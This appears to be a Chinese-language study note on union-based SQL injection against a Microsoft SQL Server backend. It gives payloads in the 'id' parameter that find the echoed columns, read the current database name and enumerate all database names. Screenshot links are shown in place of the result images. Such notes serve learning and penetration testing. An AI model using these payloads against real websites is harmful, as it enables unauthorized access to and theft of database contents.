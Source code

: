 ![image-20240906093401627](C:/Users/24937/Desktop/学习/笔记/assets/image-20240906093401627-1725761554967-19.png)

------



# 联合查询注入

#### 查询回显点

```sql
id=-1'union select top 1 1,2,3 --+
```

![image-20240905145332158](./assets/image-20240905145332158.png)

#### 获取当前数据库名

```sql
id=-1'union select top 1 1,2,db_name() --+
```

![image-20240905145557965](./assets/image-20240905145557965.png)

#### 获取`所有`数据库名

```sql
//修改第二个`top`可以查看其它的数据库名
id=-1'union select top 1 1,2,name from master.sys.databases where name not in(select top 1 name from master.sys.databases) --+
```

![image-20240905145908249](./assets/image-20240905145908249.png)
